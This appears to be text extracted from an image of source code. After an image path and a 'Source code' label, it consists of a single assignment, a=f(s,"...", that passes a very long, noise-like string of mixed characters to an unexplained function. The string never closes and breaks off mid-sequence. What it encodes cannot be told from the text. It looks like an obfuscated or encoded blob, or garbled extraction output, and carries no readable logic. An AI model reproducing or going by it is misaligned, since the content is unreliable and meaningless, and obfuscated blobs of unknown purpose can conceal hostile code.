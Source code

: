 a=f(s,"UT4X-Nyrs23d<x/HxXdxT3rsxsX<24HF-/H4r<<x4ds3/dNXd42H-<XXx/H-s;2<TT<d/x-s3yw-y4<P2/<XT3Xd<<H4XH/HHX2Nrxyrss/s-43PH/3H42sr/-xr/2T<Nr4<x}yHX4iX4N4NTT4<d24X_ryyNTr4x-4<s3/s2NTrr2<T43sIrx3r/<yyTTrN^3/x32<34Hs-/4-G/3yddxT2s3xx-T2/>T//N23swyy-Z-sHH9-z2HI3-2dx4<rNd/XN34/xN4-y3s9zN/d<y<xx-O3XHdN/NT3<S3ys<y4-j44Xr/2Hr/3<xdr-x3s-/y<d/xN23x?N-4XN<rNTT2Xd2yH-N4dwP/y<x4yss2Xs2XrsTxyyrdHsdNx-X42X//-<33,syy<-N-<=/t-y23HsNyvrr3xT-ssxHrcss</24XyXd/T<r3xsXy2-4s2MdT&rN-<syry3T+F4xxH/rXdsTyr-TX3Nw4Ndy3H3yd</XTs2/<H<sXH/Tydd4Ts-s/Xr2X/dNT32)yu4yNd<T3rs4s22H2yNd3,xr<yd<y4-s4/6X/2<-X2sd2T-r4x.4/s</33F/yvry4<qT/r<x3rsH3X-NNyNNNdy42N2HNrysT3Xx2N4X/xrdT23%s<HHTXH42)3/yLd-<y-TxXHx<X4NXxX<u4<3ryds<HT-y3-c4x-THr/dx-r3sp4Nr<4dTyrsHx<<y3s4d<4NxH/rNdsTyr-T322H<-xd/j24ydTXTs-/XH<sT/xXHr-42r2/4X--3xsNNddArr4xTdHT3rsxyX-24rf23/<5<rv<y4-s4XNsrxHy2<34-r2/-xX4/s</3-s3y<-d25c4j3 x3Xs2yX2<-TNr<s<T/2TH3-Nd <G-d<d4<ssx/H-sxxx-X2HH/4sdx52yXx4H/rxd3-d2/Hxy-<-4d4Hs3/s-y3-14yP/HN<rxTsXN3XX4N4N/HX32<3Xys-/4-e/Tys<X4ss2dsXr3XHTNTds6<yrx4Xy2XsTNrrr<+dydN-sH43x<H43ss/y--34su3/H<Tx<323KrxTX2//2X-2y3/X4-s4/Ps-hTT32dTrsy244r2ruKN4ys//rXx64dX/<N-sNsx<y2<mx>yT/hXHs//</y-<3eH/N<./sr/N-aN4/4NX3x xr%ys<H44sPx/3<HdNHdd4rNsxHX32,/HN3-s3394y?d/N/HXX32rQryNN4<+W<y3<sy3/2NNd-Jxy/xXxsy3xN-N2N&Gu<2r,xr2<<<-4yr/x<X3/s-yr-H-rT/4</XTss/y--/Xy/x44Nr<x2XxXr24HO-/3<#3ys<yy-s-J3X/2<H3<_43ss/4;3NxddyTdHTxX4x-4Hs!/s-2d6<-Nr<TTxXx<xXx2d/dNsrTxHyr<vHr-/3yZyyN<-4)s4/XX22d<y4ys.x/X<H<y-<d4yTNr9</4<s3/s-yHx-4y4<yT<r3xsrH84yN<-jHr3<x4x42-y-3yxT/H24/rZNNrrx4XWs//<-34s-<3-<-4Hr/x<X3/syd<T44rdxrX3-3<HNs32T%yT<44TTxrsxyX-24Hos/H/-3ydXd<33T3z2HdH3r2rdsT/r4xM4/x<-d3< 3yxx%4rr4/d-3Xdy<ysXTLHs4Xx3H/rs27TTQX2X/3H3TxHdNxy-d2W//-<HrrrxNX4rN/N-T2d/xy<<sTxsCxr-Tr-HX-<3302r^3TX42;/<x3-?2-H4NMHrr2<d4Hsdx -X34FXysNx-24s--2THXx-2xG233O<y-<44n<N-d3/QuNr<TdNX//dHs<3rH3<43/TpXr2<3N/rsTT/NXN4HNjdsZ3ys<yrsHT-r3NesNH234dss/yXH2<s/HX-s3yM-dy4N2yH14y22HsN2d/d4Tsy<<34sHX-N3d0/-T<d4<syxd-yXNNx-XNT33NN2/2ryTsXx/X<23HsNyT-sydZxTH---xN<Nr3Xr4sHxTHr3xsXy2-H43t44-<yxd3xs3<-4s4d23H22ddTyr-x4Xws//<-33s 2y-<44%r/x<X3x3XyNr4xD/HNj3ITXdr-sX3N-dx-N4r22THsxyNTHX-/3<,3ys<y4-/y4_-T-TxxyxHydsTNsXyxs/H4-s3yn-3X4/24/NIrs-HrNdNNdEG/y<<34ssy4-s43X2H2ys-2r<y9-H4<HH6N-33SsyyTC2T/XXHd9kXyr<-dyT-r9</4<H4NT-s3dP4yMd/N//HXHyXx3Nd<sdtT/y3<s4yxH4ssNHdT<2xT2ss2-TX2/HrN23dT<yHxXX64XN4<T44TrT<dr2s-Hrbx543ss/y2TqdrX<Td/--rsxyX-H3y-<4T<--2rHN2dH2Nry<E/y2d344sX/3H/2THdNrrrbrrrxN4N243dT23TH3XTss/Z-=2/6QN/d/T<rdxs%TN<d3Tsryx-r4ON4/-H33}syy<-44s+XNr<2x3N4x4rX4HdpN<T<2/3N43-w4yRLTsd/<-y2dAy--dTT4rNxHXd4ssd/4-_2/-4dd4ys3xN-N322q{T-33s;y3NXSs2/dXx3/qTyN<4x4rXxy4x2s/H-ddy<4yrxX4NT<sxxyX-24XTd<TNrr<2X3sxHT-/N/xHy4d24-rdxr-4-/xXNHdT32TXXTT-2/N4HXHdxNHr4-<3T33<Xo32y24X-N4T<sdxd3<<4yr/rT2X//-<335syy--yX<O/D-x23HsNyHxrHxTXN2Tx/N33rT4rNx%THs/xH-y22>xHN3e-/T</3</3T--4T-X2/H<N3dsTyd-4XrY2TXxy2xN-yx4d:.NdxxHX32sHyN-d42W<sG<4<24/y--34-T<<XesX3N423s5TNxd/3/T2ys<y4-<d-/d-DNyx<TTss7xrHKs4/xNx3xTsWyy3<1T/r<4/2x%/ys3NT2ssxT<<4Hsy/--4DXri<T4xs=xd-yX-2r//-<33NxdyRsyXx-4XsH2x4HdT-dXT<3yr;4<2/d3r/T4H4&3/-y-<TrX22-H4NF3/}<4343yysr/4-=2/H<N3ds43d-x-Xxs//<-3Hdr3xy4rsT/d-T3<ds-X<XTyrNrT<<43ss/y--34Ts2/dH-/Nx242X2-36XN/duxys<y4-s4/n4/T2X3N3<TT-r4xWr-HdN<3d d4-d-4N2T/T-/Xd/3Xry4NjyXz-r<yrs22NHHd4N/3yX4<3dNxyX32t//-<HHrd<dXy2k/T-d3T2<HHNyd-T4x/XX3Xx3-23xg2ONXyTHyTd3yHd<-4XTNX3/C<y3<s4ys-x4rH35#)N3dsTy<TXX22H</HHd3d4H<-2xd<X%TdX<3JHyN-d4NrxxXarrHr-332TNI4s<d<T3rsTH345sN2<TTNy<x-4d--<--H3x%2N<<r4/X-<xTxsXxHX/ys//-NdsFNX/d/42sr/XXy3TYs4/dX:drN<dX-sXHXNTd2dxTsryx-X42)//2T/3Ldyy<-44s1x/<<o/XsN2sxsssTy/ry5423sN3rTr3H2drd4/H-TAxXH-NN3/;<y3c2s3HT-d3/3TH<N3dsTyr-H434<//Hx4/XH2/X<-xhyNTdXxAH-yXrXTry</rHy2sdH33/ds>%H4NH64drx2-NdXxeyx<3/dT2tN4ys//&X/2<-<dx4XsX/sXN-/xH-H32T3rryN4<hN-3d2s4/-3r2Td4TNy<<34s/<NydT>xNf3XH<T3sXx-X42tXT3xT<4s<rX4sd/xXHdKeXyr<-drxsGXs</dd-2r4r/XhNs-<rTyX2syT4N2XTN4d-0<y3<sry/NN-3NV<rWNxdsTyr-x4XO9/-ds333TNy-<44=/X-s2H7NNd<44ysXd/4xs//<-Hd4Y2M4yrd<T3rsX23XW-NH<X4SrXxy4d4ys</IX/2<Xxd24-s3xX-XsTHNy-3x32l-y4<eT/r<x3rTxyHr/<34HTsd3rXHXr4X-N3qH/N<d3TsryXxr42X//-<33Asyyd-2-<f/TX<23HsNyd-T43st/4Hs3/s-y3-m4yWT4N<r</4Xy2-H42x;HrHxN/sr-/N-H3NTTHHN3dsTyr-x4d6/34<-x<dXdXH-TH/X/33H2234!N-d4TWd<4x2HH3N3dX<4-dxX4/srx2HysTuTN-dX<<yNd/4X--34XdsdHT-x3<xyyddrTTsB3<4dysH2-<3dT4r4x2x<-y2yH-N4+XrTx/X22-H4-xd*gr--</TdsNxdxy-y2a//-<HTrr<3TT2T/--XN<HN-y2dWdX4<NT/rM<dX<sd,T^-ydd/T<r3T/3yirTH2XTxsTxsX<sdHy/N/xssx/T2<XX-nyTTXX<32XH2-s2<4/s4NHso/XX32sHy3rTdr4x3XN2s/H/s-/34OjN/TWrHHJ-3ryYry-<4Tdrsyd<y4-s4/8X/2<XN2sdsT3r4xA4/x4N2d-K3y2x-<44sr<x3Xs/3NN<-TrrX/V/3yHHd-x-Ndsxds<r3G<e43rrT24HX-<33(s3HXTsX/r-XX/<-HsNyd-r3/--42<<-TrrNTdr2xr/<s//2X334BXy3r/TTrdxrHrsrHrNN3NT44d224Tr3dT*syn<TTxr3xHXd2xHNNTs!/4X32sHy3T4Ts4x/X-2xsd4rr3Ntg:3.3<sXXrxsX<24H0-//xrsx<4H--/--T3N2HdHTrx-TXdyryHd<d/x32rdy2c4Q/xTNXT2Xd2yH-N4d8o/y<x3yss2/--43oH/N<d3N4dyxyyn2 //-<T<y3x/4N2NHX-Xd#x-4rsN4srr/s-43TH<-xd2xXrr<2/xyX/H-TrHLTNXdrTXN<xy42s2/2-33HI3y,dH43--/--!2r2WHr-33s(y3x4HsT/N-Trx#ry4<X4--Xr;*r43ss/y3<Tyr-</4HN-3rLN3yHXyrr<TXrXx<4/22/-NNdT;Ty<dd4Ns4/yXN2<q}Ts3dTNrT2T4Xss/O--3NwZ4XdsT<sr2dXrs2/HN4rTH4-X2xH/yNdd742HH-HSNR336syy4dsX/x-XXH3dxXs,d-T(--syydsxTHX/3ssXx<3-/3d2xdXy2-H4NI3/s<xTls42s-/4-E2/H<23TrNyryx2Xos//<3uTTr2<x4-s</Xx/-N2sHyN-HxsN/=X2sd3sXXdXcyyNrHd/T/rsxyX-/rX-drT2bxys<y4-s4/hX/H2X3N3d2T-r4xM2<HTyT-dX-y3XT2H-/2H3drr22s2ZNsZe<9/ry/-<N/ryrT-3<d<s2H3X3TXXN-XTNsT/2H<<yNdyTsXd<3H<3Hss42xHs3HxiXTs3/s-y/3r-<T4dsTrxxsXy2-H4N7N/rH33<34<s-/4-jxHNH</4Ts<x2xN47sy-Iy3/d4N4r+T4Xr/x<X32sHyN-/2Ngr^</43ss/y23xN XdT44)3TrTr<3-N4HNw<H=3ys<yrr/3-TdsHxyrrsH<N22XHfs2/--rys<yNH3HTNrTxRH3sHxdXN3-xe-Hs<TxrF<HXy2yHx.T.sT4//NN/T22r44x-/d4,syy<-r4/HNT3N?/yT<N44T-rr</4<s34HdN0syH<H44sTr</NXy2-H43HHXNNdxT2sN/r4y3/H4-y3rT/Tss3x4X!s/4/3dfdrT<dX-sHHX-32//<ysdN4ksXx/4x2</xN-3rTdC4y2d<T3rs443XHNNTd3H<ry<2XHs2H-/XX/2<H3Nsdyr-xNT8XZ34/3-s3y-dxT4-2-3/H32X/XX22rH<NXdH/3yHxN4ssH/H-43TTrT3syx-X42PXj3xgxrX<xXy2THN-<3Yxxyr<44Xs-3XxjXys3/s-yTbrT<T44sH//-32H14N2NXTR3rsH/s d3x2NrH3vm4N3dsTyxr-T2xHF-xd/3diyy-<44Lr/d<32xsH2N-d4T?y/<<x3Hx4y-y3dkAN/d<s